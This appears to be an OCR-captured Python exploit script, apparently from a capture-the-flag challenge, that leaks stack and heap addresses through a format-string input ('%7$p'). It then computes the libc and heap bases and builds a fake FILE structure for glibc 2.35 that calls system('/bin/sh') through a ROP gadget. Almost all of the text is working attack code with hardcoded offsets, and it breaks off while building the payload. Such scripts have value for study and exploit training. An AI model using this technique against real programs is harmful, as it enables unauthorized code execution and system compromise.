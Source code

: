 ```python

sla("Choice: ","3")
sla("> ","1")

ru("Author: ")
# base 0x7ffff7c00000
# leak 0x7fffffffbb10
# offset 0x83FBA40
# offset = 0x7fffffffbb10 - 0x7ffff7c00000
# print("offset",hex(offset))

leak = rc(12)
leak_stack = int(leak, 16)
print("leak",hex(leak_stack))
lib_base = leak_stack - 0x83fbb10
libc.address = lib_base
print("libc base",hex(lib_base))

# leak heap
sla("Choice: ","1")
sla("> ","%7$p")
sla("> ","ddd")
sla("> ","n")

sla("Choice: ","3")
sla("> ","2")

ru("Author: ")
# base 0x55555555b000
# leak 0x55555555b400
# heap_offset = 0x55555555b2a0 - 0x55555555b000
# print("offset",hex(heap_offset))

leak = rc(14)
leak_heap = int(leak, 16)
print("leak",hex(leak_heap))
heap_base = leak_heap - 0x400 + 0x2a0
print("heap base",hex(heap_base))

# dbg()
# FILE EXLPOIT
# 2.35 GLIBC
stdlock = 0x000000000021ba70
add_rdi = 0x0000000000163830

system = lib_base + 0x50d60
stdout_lock = lib_base + 0x21ba70   # _IO_stdfile_1_lock  (symbol not exported)
stdout = lib_base + 0x21a780
fake_vtable = lib_base+0x2160c0-0x18
gadget = lib_base + 0x163830 # add rdi, 0x10 ; jmp rcx
fake_io = heap_base + 0x1870

fake = FileStructure(0)
fake.flags = 0x3b01010101010101
fake._IO_read_end=system        # the function that we will call
fake._IO_save_base = gadget
fake._IO_write_end=u64(b'/bin/sh\x00')  # will be at rdi+0x10
fake._lock=stdout_lock
fake._codecvt= fake_io + 0xb8
fake._wide_data = libc.sym._IO_wide_data_1
fake.unknown2=p64(0)*2+p64(fake_io+0x20)+p64(0)*3+p64(fake_vtable)

payload = b"A"*272
```